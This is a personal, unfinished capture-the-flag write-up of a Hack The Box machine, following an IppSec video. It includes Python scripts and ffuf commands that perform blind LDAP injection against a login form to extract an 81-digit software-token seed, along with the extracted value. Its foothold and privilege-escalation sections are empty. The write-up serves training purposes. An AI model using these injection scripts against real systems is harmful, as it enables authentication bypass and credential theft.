

# CTF Helped-Through

Name: CTF
Date:  11/4/2023
Difficulty:  Insane
Goals:  
- LDAP Injection Attack revised, understood and noted in my Archive
- Adapt the script a team had to suit new attack scenarios
Learnt:
Beyond Root:
- Adapt the script
- LDAP page in Archive complete
- CIA tradecraft-to-brainzcraft

- [[CTF-Notes.md]]
- [[CTF-CMD-by-CMDs.md]]

One of the season 4 machine contains this exploit I want to solidify and revise my understanding of this because will trying to do this manually I failed with online resources that were not mine. I will do the usual recon with the exploit in mind for the first hour the follow along. [IppSec](https://www.youtube.com/watch?v=51JQg202csw) is awesome - 

CTF Compress Token Format - string of digit that change when performing two factor login
- RSA fobs
- Google 2FA 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128. This machine has rate limiting protections and blacklisting IP to prevent content discovery tools and scanning 


`/manual/`  from `feroxbuster`, and the `login.php` and `status.php` pages found by `gospider` look interesting.

Doing the good idea of OSINTing the box creator [0xEA31](https://app.hackthebox.com/users/13340) is Italian. More importantly I have seen looks of GitHub Profiles with Donkeys as profile images and questioned the significance of the animal from an anthropological perspective. According to [Wikipedia: Cultural references to Donkeys](https://en.wikipedia.org/wiki/Cultural_references_to_donkeys) *Italy has several phrases regarding donkeys, including "put your money in the anus of a donkey and they'll call him sir" (meaning, if you're rich, you'll get respect) and "women, donkeys and goats all have heads" (meaning, women are as stubborn as donkeys and goats).* and according to [washingtonpost](https://www.washingtonpost.com/archive/politics/2005/06/19/pinning-a-fairy-tale-on-italys-dwindling-donkeys/170a715a-9c64-45b7-93f4-6897c411188e/) *Donkeys, **a symbol of Italy's impoverished past**, might not seem as important as, say, Venice or family farming, both under threat -- unless you see something profoundly Italian in them, as Princess Nicoletta d'Ardia Caracciolo does. 19 Jun 2005*

Interestingly according to [Wikipedia](https://en.wikipedia.org/wiki/Italian_wolf): *The **Italian wolf** features prominently in Latin and Italian cultures, such as in the legend of the founding of Rome. It is unofficially considered the national animal of Italy.*... to me seems correct given my understanding of Roman History and mythology. Seems weird that they do not use the Wolf as a symbol or maybe it my framing over the last few days or it maybe some kind of joke I do not understand because I am trying to observe something to understand, naive or just some contemporary I lack the resource to care enough or to observe.


Ippsec - *"Payed software is better documented"*, but this is 2024 so search engine dorking is not what used to be... add Redhat package version by httpd dorking fail to BR list


`cmd=whoami` does not change the command ran to get server status


Pay our respects


Intercepted the request before I unpaused for this interesting comment


## Exploit

81 digits...

- Ippsec uses 
	- `<b>test` to test for XSS 
	- then double URL encodes

When in doubt when there a deadend and a clue research!

Search Engine Dorks:
```
software token linux -> https://github.com/stoken-dev/stoken
stoken man -> https://manpages.ubuntu.com/manpages/jammy/man1/stoken.1.html
stoken man redhat -> https://code.tools/man/1/stoken/
```

[Wikipedia OTP](https://en.wikipedia.org/wiki/One-time_password) state that OTP is: "*A **one-time password** (**OTP**), also known as a **one-time PIN**, **one-time authorization code** (**OTAC**) or **dynamic password**, is a password that is valid for only one login session or transaction, on a computer system or other digital device.*"

Ippsec just says that we need the seed for the user


We also need to brute force user, but sensibly either slowly or small wordlist size


Validation of special characters is probably in this case done with burp.


I made a special characters wordlists that also includes base64, url encoded and double url encoded and octal encoding. `%25` being double `%%` discussion - the objective:
- Hoping the blacklist applies the blacklist before the decoding 
- Also hoping that application double url decodes


`info` pages != `man` pages - [Linux Experts Read 'info' Pages (NOT 'man' pages)](https://www.youtube.com/watch?v=vnBCnd2L0dY) = the TLDW/R 

Is that RTFM also may in some instances be worth checking the info pages - dependent on the OS, compilation of the OS, politics, developer's love of Unix documentation and sometimes the info page is the man page and the man page is the just the info page. TLDR this:
- Use both `man` and `info` commands for RTFM for absolute meticulousness  


Kali or Parrot 
```bash 
info
pinfo # is colour
# `/` to search down by regexp
```


But as MTB... whom is cited in the video above 


```csharp
// LDAP the query is 1st in the syntax
(&
	(&
		(password=IppsecRocks)
		(username=GoSubscribeToIppsec)
		($attribute=* // use the wildcard character to get all LDAP attribute - LDAP injection (application closes the `)` )
	)
	(|
		(Compare something)
	)
)
```


Had Weird issues with the EXACT IppSec version of script, but then was fine... as a reminder

Capture traffic on a interface of protocol and port in a version manner
```bash
sudo tcpdump -nvvvXi tun0 tcp port 80
```


```
285449490011357156531651545652335570713167411445727140604172141456711102716717000
```


```python
#!/bin/usr/python3
import requests
import sys
from time import sleep
from string import digits, ascii_lowercase

token = ""
url = 'http://10.129.228.34/login.php'
attribute = "pager" 
loop = 1

while loop > 0:
    for digit in digits:
        token = token
        proxy = { 'http': '127.0.0.1:8080' }
        query = f'ldapuser%29%28{attribute}%3d{token}{digit}%2a' # ldapuser)(pager=<token>*
        data = { 'inputUsername': query, 'inputOTP': "1234"}
        r = requests.post(url, data=data, proxies=proxy)
        sys.stdout.write(f'\rToken: {token}{digit}')
        sleep(1)
        if 'Cannot login' in r.text:
        # print(f"Success: {token}{digit}")
            token = token + digit
            break
        elif digit == "9":
            loop=0
            break

```

Notes from a previous box
```bash
# LDAP-active-directory-attributes.txt
# LDAP-active-directory-classes.txt
# LDAP-openldap-attributes.txt
# LDAP-openldap-classes.txt
# LDAP.Fuzzing.txt

ffuf -u 'http://ctf.htb/param=FUZZ*' -c -w /usr/share/seclists/Fuzzing/chars.txt:FUZZ  -mc all


ffuf -u 'http://ctf.htb/param=*)(FUZZ=*' -c -w /usr/share/seclists/Fuzzing/$LDAPWORDLIST:FUZZ -mc all -x http://127.0.0.1:8080 # remember to apply FFUF filters and have burpsuite running
```
https://stackoverflow.com/questions/9450446/how-do-i-use-a-c-style-for-loop-in-python

THIS DOEES NOT WORK, but I learnt alot about LDAP injections and python reminders from doing this 
```python
import requests
import logging as log
import string
from time import sleep

# This script is adapted from a HackSmarter Teammate called Knight - I will try to find some link during completion of CTF HTB box
# Tried to add ippsec 

log.basicConfig(level=log.DEBUG, format="%(message)s")

ATTRIBUTE = "pager"
URL = "http://10.129.228.34"
OBJECT = "ldapuser" # username, computername, LDAP object
CHECK_IN_RTEXT = "Cannot login"
PROXY = { 'http': '127.0.0.1:8080' }

def check_data(digit):
    QUERY = f"{OBJECT}%29%28{ATTRIBUTE}%3d{digit}%2a" #"{OBJECT})(Description="
    data = { 'inputUsername': QUERY, 'inputOTP': "1234" }
    log.debug(f"Checking: {digit}")
    r = requests.post(URL, data=data, proxies=PROXY)
    if f"{CHECK_IN_RTEXT}" in r.text:
        log.debug(f"Success: {digit}")
        return True
    else:
        log.debug(f"False: {digit}")
        return False

WORDARRAY = [i for i in string.digits]
# WORDARRAY = [i for i in string.ascii_letters + string.digits]
# WORDARRAY.append("\=")
# WORDARRAY.append("\*")
# WORDARRAY.append("\#")
# WORDARRAY.append("{")
# WORDARRAY.append("}")
# WORDARRAY.append("\(")
# WORDARRAY.append("\)")


def check_append():
    result = ""
    while True:
        for i in WORDARRAY:
            if check_data(result + i):
                result += i
                log.debug(f"Result: {result}")
                break
        else:
            break
    return result

def check_prepend():
    result = ""
    while True:
        for i in WORDARRAY:
            if check_data("*" + i + result):
                result = i + result
                log.debug(f"Result: {result}")
                break
        else:
            break
    return result

def main():
#    log.info(check_prepend())
    for i in range(0,81,1):
        log.info(check_append())


if __name__ == "__main__":
    main()

```

```bash
sudo apt install stoken
```

```bash
stoken --token=$token
```

OTP are time sensitive and therefore to finish this I need to change the VM time.

https://www.youtube.com/watch?v=51JQg202csw

## Foothold

## Privilege Escalation

## Post-Root-Reflection  

## Beyond Root


- Adapt the script
- LDAP page in Archive complete
- CIA tradecraft-to-brainzcraft
